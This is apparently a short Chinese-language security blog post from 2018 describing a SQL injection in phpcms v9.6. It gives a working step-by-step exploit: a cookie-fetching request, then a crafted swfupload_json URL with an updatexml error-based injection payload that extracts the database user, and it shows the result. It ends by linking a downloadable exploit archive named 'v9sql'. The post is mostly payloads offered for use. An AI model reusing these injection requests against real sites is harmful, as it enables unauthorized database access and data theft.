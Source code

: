 ```yaml
---
title: "phpcms SQL 注入"
date: 2018-02-03T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


[phpcms v9.6 SQL 注入](https://zhuanlan.zhihu.com/p/26263513)

<!--more-->

`/index.php?m=wap&c=index&a=init&siteid=1`

获取 set-cookie 的值

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517463975.jpg)

`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`

post 传入 userid_flash 内容是刚刚获取到的 cookie

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464021.jpg)

如果不成功的话 在 header 里面加上

`Content-Type: application/x-www-form-urlencoded`

复制 set-cookie 里的 json

`/index.php?m=content&c=down&a_k=json`

解密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464141.jpg)

`root@localhost`

v9sql exp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464259.jpg)

[v9sql.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464275.zip)